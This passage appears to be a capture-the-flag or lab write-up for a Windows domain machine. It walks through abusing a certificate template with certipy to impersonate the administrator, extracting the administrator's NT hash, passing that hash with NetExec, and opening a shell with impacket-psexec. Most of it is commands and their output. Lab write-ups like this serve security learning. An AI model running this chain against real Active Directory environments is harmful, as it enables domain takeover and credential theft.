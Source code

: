 So the SID for user `administrator` is `S-1-5-21-2983547755-698260136-4283918172-500`.

### Requesting new certificate with specifying the `SID`

```powershell
└─$ certipy-ad req -ca retro-DC-CA -u 'BANKING$' -template RetroClients -upn administrator@retro.vl -target $(cat ip) -sid S-1-5-21-2983547755-698260136-4283918172-500 -key-size 4096
Certipy v5.0.2 - by Oliver Lyak (ly4k)

Password:
[*] Requesting certificate via RPC
[*] Request ID is 18
[*] Successfully requested certificate
[*] Got certificate with UPN 'administrator@retro.vl'
[*] Certificate object SID is 'S-1-5-21-2983547755-698260136-4283918172-500'
[*] Saving certificate and private key to 'administrator.pfx'
File 'administrator.pfx' already exists. Overwrite? (y/n - saying no will save with a unique filename): y
[*] Wrote certificate and private key to 'administrator.pfx'
```

### Authenticating using the certificate & getting the hash

```powershell
└─$ certipy-ad auth -pfx administrator.pfx -dc-ip $(cat ip)
Certipy v5.0.2 - by Oliver Lyak (ly4k)

[*] Certificate identities:
[*]     SAN UPN: 'administrator@retro.vl'
[*]     SAN URL SID: 'S-1-5-21-2983547755-698260136-4283918172-500'
[*]     Security Extension SID: 'S-1-5-21-2983547755-698260136-4283918172-500'
[*] Using principal: 'administrator@retro.vl'
[*] Trying to get TGT...
[*] Got TGT
[*] Saving credential cache to 'administrator.ccache'
[*] Wrote credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@retro.vl': aa<REDACTED>ee:25<REDACTED>89
```

Using NetExec to confirm local admin access

```powershell
└─$ netexec smb $(cat ip) -u administrator -H aa<REDACTED>ee:25<REDACTED>89
SMB         10.129.26.138   445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:retro.vl) (signing:True) (SMBv1:False) 
SMB         10.129.26.138   445    DC               [+] retro.vl\administrator:252fac7066d93dd009d4fd2cd0368389 (Pwn3d!)
```

Gaining a shell using `PsExec`

```powershell
└─$ impacket-psexec active.htb/administrator@$(cat ip) -hashes aa<REDACTED>ee:25<REDACTED>89 
Impacket v0.13.0.dev0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.129.26.138.....
[*] Found writable share ADMIN$
[*] Uploading file utTnUhwK.exe
[*] Opening SVCManager on 10.129.26.138.....
[*] Creating service phSx on 10.129.26.138.....
[*] Starting service phSx.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.3453]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
```